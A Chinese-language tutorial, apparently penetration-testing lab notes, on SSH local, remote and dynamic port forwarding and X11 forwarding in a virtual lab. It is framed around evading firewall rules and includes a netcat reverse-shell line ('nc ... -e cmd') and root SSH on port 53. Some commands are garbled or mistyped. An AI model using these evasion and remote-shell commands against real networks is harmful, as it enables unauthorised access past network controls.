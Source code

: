
# SSH 隧道

* 简介
* SSH 本地端口转发
* SSH 远程端口转发
* 动态端口转发
* X协议转发


## 简介

* SSH 支持双向通信隧道
    * 将其他 TCP 端口的通信通过 SSH 链接来转发
    * 用 SSH 作为传输协议，对流量自动加解密
    * 突破防火墙访问规则的限制，可用于翻墙
* SSH 本地端口转发
  
    * 使效果类似于 rinetd
    * 将一本地端口与远程服务器建立隧道
* 建立双向安全隧道
    * 将其他 TCP 端口的通信通过 SSH 链接来转发
    * 用 SSH 作为传输协议，对流量自动加解密
    * 突破防火墙访问规则的限制，可用于翻墙
* 本地端口转发
    * 本机侦听端口，访问转发到远程主机指定端口
* 远程端口转发
    * 远程侦听端口，访问转发到本机主机指定端口
* 动态隧道模式


## SSH 本地端口转发

* 环境要求防火墙只允许内网53端口访问外网
* 将一本地端口与远程服务器建立隧道
    * Web 服务器在远程：ssh -fCNg -L :: user@ -p
    * Web 服务器在本地：ssh -fCNg -L :localhost: user@ -p
    * -f 后台运行进程
    * -N 不执行登录 shell（不显示登录的界面）
    * -C 进行压缩，节省带宽
    * -g 复用访问时作为网关，支持多主机访问本地侦听端口
    * 网关模式转发 RDP、NC shell
    * 端口转发基于家里起来的 SSH 隧道，隧道中断端口转发中断
    * 只能在建立隧道时创建转发，不能为已有隧道增加端口转发
* Web 服务器在远程
1. 环境拓扑
``` 
  本地 xubuntu <--hostonly--> firewall <--bridge--> kali（SSH）
  firewall <--bridge--> win2003（http）

```   

2. win2003
``` 
  桥接：192.168.1.124
  开启远程桌面
```

3. m0n0wall
   
4. kali
```
  桥接
  ip:192.168.1.110
  vim /etc/ssh/sshd_config
  PermitRootLogin yes
  Port 53
  PasswordAuthentication yes
  systemctl  restart ssh.service 
```

``` 
// 本地 xubuntu

hostonly：1.1.1.12

  ssh -fCNg -L <listen port>:<remote ip>:<remote port> user@<ssh server> -p <ssh server port>
  # ssh	-L	webserver	kali机器
  root@kali:~# ssh -L 7001:192.168.1.13:80 root@192.168.1.14 -p 53

  # 终端窗口关闭即断开连接
  -f 后台运行进程
```
``` 
  # -----------------------------------------

  # 使用 53 端口 登录 rdp 3389 端口
  root@lamp:~# ssh -L 7003:192.168.1.13:3389 root@192.168.1.110 -p 53

```

* Web 服务器在代理主机本地
1. kali
``` 
  root@kali:~# systemctl restart apache2.service
```

2. 本地 xubuntu
``` 
  ssh -fCNg -L <listen port>:localhost:<remote port> user@<ssh server> -p <ssh port>
  root@lamp:~# ssh -L 7002:localhost:80 root@192.168.1.110 -p 53

```   


* 网关模式复用

```  
  	# 通过 本地 xubuntu 最为代理，使局域网内的主机都可以访问外网
  	-g 复用访问时作为网关，支持多主机访问本地侦听端口
  	root@lamp:~# ssh -CfNg -L 7004:192.168.1.13:3389 root@192.168.1.110 -p 53
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190413171429870.png)

  	# 使 winxp 通过 xbuntu 作为代理 ，建立 nc shell
  	win2003：
  	C:\>nc -nvlp 3333

  	xbuntu：
  	ssh -CfNg -L 7006:192.168.1.13:3333 root@192.168.1.110 -p 53

  	winxp：
  	C:\>nc 1.1.1.12 7006 -e cmd

```

## SSH 远程端口转发
> * 由于 ACL 等原因，SSH 与应用连接建立方向相反
> * 本地端口转发
>   * SSH 客户端+应用客户端位于 FW 一端
>   * SSH 服务器+应用服务器位于另一端
> * 远程端口转发
>   * SSH 客户端、应用客户端位于 FW 两端
>   * SSH 服务器、应用服务器位于 FW 两端
> * ssh -fCNg -R :: user@ -p
> * 之所以成为远程，是因为 SSH 侦听端口开在远程的 SSH Server（kali） 上
> * 侦听端口永远在客户端一方


* 测试环境
1. win2003 作为远程 server
``` 
 hostonly：1.1.1.11
  开启远程桌面
```

2. xubuntu
``` 
  hostonly：1.1.1.12
  
  ssh -CfNg -R 7001:1.1.1.11:80 root@192.168.1.110 -p 53
  ssh -CfNg -R 7001:1.1.1.11:3389 root@192.168.1.110 -p 53
  # 侦听在 kali 上，侦听地址 127.0.0.1

```

3.  kali
``` 
root@kali:~# rdesktop 127.0.0.1:7002
```

## 动态端口转发

> * 本地、远程端口转发都需要固定应用服务器IP、Port
>   * 应用端口繁多，诸葛转发效率低
>   * 某些应用不固定端口
>   * 某些网站不支持IP直接访问
>   * 使用非受信网络上网时保护流量不被嗅探
> * 本地侦听 socks4/5 代理端口
>   * 由 SSH server 决定如何转发
>   * 作为翻墙代理使用
>   * 配置客户端代理（浏览器）
>   * 使用 proxychains 支持无代理客户端
>   * ssh -CfNg -D 7001 root@1.1.1.1 -p 2121


* 测试环境
1. kali
>   桥接：192.168.1.14

2. xubuntu
``` 
  hostonly：1.1.1.12
  ssh -CfNg -D 7009 root@192.168.1.14 -p 53

```

3. win2007
``` 
 hostonly：1.1.1.11
  仅主机，无法上外网
```

## X协议转发

* 远程登陆 Linux GUI 运行图形化界面工具
1. VNC
2. X windows

* 防火墙限制访问时
1. 基于 SSH 的 X 转发
2. ssh -X user@1.1.1.1 -p 53

* 测试环境
1. kali
>   桥接：192.168.1.14

2. xubuntu
``` 
 hostonly：1.1.1.12
  ssjh -X root@192.168.1.14 -p 53
  # 所有的操作都是记录在 kali 中，本地只是查看和操作
```

